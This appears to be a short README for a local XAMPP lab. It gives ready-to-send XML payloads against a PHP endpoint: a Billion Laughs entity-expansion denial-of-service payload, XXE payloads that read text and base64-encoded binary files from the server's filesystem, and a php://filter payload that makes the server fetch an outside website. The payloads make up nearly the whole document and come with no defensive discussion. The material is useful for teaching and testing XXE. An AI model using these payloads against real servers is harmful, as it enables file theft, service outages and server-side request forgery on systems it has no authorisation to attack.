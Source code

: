Run the php file in a XAMPP instance. Then issue queries to the server with these XMLs included (only one XML per query, so one example per query), e.g. with Postman.

Billion Laughs attack:

```
<?xml version="1.0" encoding="ISO-8859-1"?> 
<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY bar "World ">
  <!ENTITY t1 "&bar;&bar;&bar;&bar;&bar;&bar;">
  <!ENTITY t2 "&t1;&t1;&t1;&t1;&t1;&t1;&t1;&t1;&t1;&t1;&t1;&t1;&t1;&t1;&t1;&t1;">
  <!ENTITY t3 "&t2;&t2;&t2;&t2;&t2;">
]>
<creds>
  <user>Hello &t2;</user>
  <pass>mypass</pass>
</creds>
```

Retrieve a non-binary file from the server's machine:
```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///[ABSOLUTE PATH TO THE FILE]" >]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
```

Retrieve a binary file from the server's machine (Base64 encoded):
```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY xxe SYSTEM
  "php://filter/read=convert.base64-encode/resource=file:///[ABSOLUTE PATH TO THE FILE]">
]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
```

Get the result of a request made by the server to a website (Base64 encoded):
```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY xxe SYSTEM
  "php://filter/read=convert.base64-encode/resource=http://google.de/">
]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
```
